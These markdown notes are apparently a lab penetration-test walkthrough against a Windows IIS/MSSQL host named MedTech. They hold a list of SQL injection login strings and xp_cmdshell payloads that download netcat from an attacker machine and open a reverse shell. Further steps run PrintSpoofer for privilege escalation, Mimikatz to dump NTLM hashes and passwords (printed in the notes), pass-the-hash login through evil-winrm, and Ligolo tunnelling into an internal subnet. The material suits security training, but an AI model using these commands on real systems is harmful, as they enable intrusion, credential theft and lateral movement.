

## Nmap -A -T4 .121
```bash
nmap -A -T4 -p 80,135,139,445,5985 192.168.104.121
# Results
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-24 01:21 +0000
Nmap scan report for 192.168.104.121
Host is up (0.10s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: MedTech
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 (94%), Microsoft Windows Server 2022 (92%), Microsoft Windows 10 1607 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2019 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 (89%), Microsoft Windows Server 2016 or Server 2019 (89%), Microsoft Windows Server 2012 (88%), Microsoft Windows 10 1703 (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-03-24T01:22:09
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   104.55 ms 192.168.45.1
2   104.47 ms 192.168.45.254
3   104.81 ms 192.168.251.1
4   105.05 ms 192.168.104.121

```


## Web page enumeration

```bash
# Navigated too: http://192.168.104.121/login.aspx

# Attempted to login with admin'
# Got an SQLi Error showing vulnerability in username filed

```
## Attempt Common Injects
```bash
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```
# Attempt to enable xp_command and get a reverse shell
```bash
# Note: This is only viable if one of the previous payloads indicated it was vulnerable
# In this example admin' proved it was vulnerable.
# The key components are:

' — closes the open string
; — ends the original query
EXECUTE ... — your new command
-- — comments out the rest

# Run these one at a time in the vulnerable field (IE: Username or Password ETC.)
# Enable advanced options and xp_cmdshell

';EXECUTE sp_configure 'show advanced options',1--

';RECONFIGURE;--

';EXECUTE sp_configure 'xp_cmdshell',1--

';RECONFIGURE;--
 
# Download netcat to target system
# Start HTTP Server with nc.exe
python -m http.server 80 

';EXEC xp_cmdshell "certutil -urlcache -f http://192.168.45.236:80/nc.exe c:/windows/temp/nc64.exe";--
 
# Execute reverse shell
';EXEC xp_cmdshell "c:/windows/temp/nc64.exe -e cmd.exe 192.168.45.236 4444";--

```



```bash
# SeImpersonatePrivilege Identified
# Lets try PrintSpoofer.exe
# Transfer File
certutil -urlcache -f http://192.168.45.244/PrintSpoofer.exe C:\Users\Public\Documents\PrintSpoofer.exe

# Run it:
.\PrintSpoofer.exe -i -c cmd

# Or
.\PrintSpoofer.exe -i -c powershell.exe

# NT AUTH/System Achieved
```
```bash
# Grab Administrator Flag
```


## Manual Enumeration

```bash
# Discovered Credentials 

User: Offsec
#And
uid=sa
password=WhileChirpTuesday218
```
## Transfer and Run MimiKatz
```bash
# Transfer
certutil -urlcache -f http://192.168.45.244/mimikatz.exe C:\Users\Public\Documents\mimikatz.exe

# Run it
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# Extracted Information
WEB02: 01543ec2b39b0a6a19a9bb5db7ade2bf

MSSQL$MICROSOFT##WID: 01543ec2b39b0a6a19a9bb5db7ade2bf

joe: 08d7a47a6f9f66b97b1bae4178747494
# joe:Flowers1

Administrator: b2c03054c306ac8fc5f9d188710b0168
```

## Login Evil-WinRM as Admin
```bash
evil-winrm -i 192.168.231.121 -u 'Administrator' -H 'b2c03054c306ac8fc5f9d188710b0168'
```

# Ligolo
```bash
# Create Ligolo Interface
sudo ip tuntap add user kali mode tun ligolo

# Start Ligolo Interface
sudo ip link set ligolo up

# Start ligolo linux proxy
cd ~/tools/ligolo/ligolo-ng_proxy_0.8.1_linux_amd64

sudo ./proxy -selfcert -laddr 0.0.0.0:11601

# Transfer
# Windows Based Agent
cd ~/tools/ligolo/ligolo-ng_agent_0.8.1_windows_amd64

# Connect to Target
evil-winrm -i 192.168.130.206 -u r.andrews -p BusyOfficeWorker890

# Upload agent
upload agent.exe

#Connect to Ligolo Proxy
./agent.exe -connect 192.168.45.244:11601 -ignore-cert

# Start session
session
1
start

# Identify Routes to add
┌───────────────────────────────────────────────┐
│ Interface 1                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ Ethernet1                      │
│ Hardware MAC │ 00:50:56:86:26:b0              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.231.254/24              │
└──────────────┴────────────────────────────────┘

# Add ip route
sudo ip route add 172.16.231.0/24 dev ligolo

# Confirm success with ping
```

## Proceed to 122